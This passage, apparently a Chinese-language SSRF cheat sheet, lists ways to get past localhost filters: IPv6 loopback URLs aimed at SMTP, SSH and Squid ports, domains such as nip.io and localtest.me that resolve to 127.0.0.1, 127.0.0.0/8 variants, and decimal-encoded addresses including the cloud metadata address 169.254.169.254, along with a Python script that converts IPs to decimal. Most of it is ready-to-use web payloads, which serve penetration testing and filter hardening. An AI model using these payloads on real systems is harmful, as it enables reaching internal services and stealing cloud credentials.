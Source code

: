 ```powershell
http://[0000::1]:80/
http://[0000::1]:25/ SMTP
http://[0000::1]:22/ SSH
http://[0000::1]:3128/ Squid
```

### 通过域名重定向绕过本地主机

| 域名                         | 重定向到    |
| ---------------------------- | ----------- |
| localtest.me                 | `::1`       |
| localh.st                    | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR]  | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io     | `127.0.0.1` |

nip.io服务在这方面很棒，它可以将任何IP地址转换为DNS。

```powershell
NIP.IO将<anything>.<IP Address>.nip.io映射到相应的<IP Address>，即使是127.0.0.1.nip.io也映射到127.0.0.1。
```

### 使用CIDR绕过本地主机

来自127.0.0.0/8的IP地址

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### 使用十进制IP地址位置绕过

```powershell
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/ = http://169.254.169.254
```

转换脚本

```
def ip_to_decimal(ip):
    # 分割IP地址的每个部分
    octets = ip.split('.')
    
    # 将每个部分转换为8位二进制数
    binary_str = ''.join(f"{int(octet):08b}" for octet in octets)
    
    # 将32位二进制数转换为十进制数
    decimal_number = int(binary_str, 2)
    
    return decimal_number

# 测试函数
ip_address = "192.168.0.1"
decimal_number = ip_to_decimal(ip_address)
print(decimal_number)  # 输出: 3232235521

```
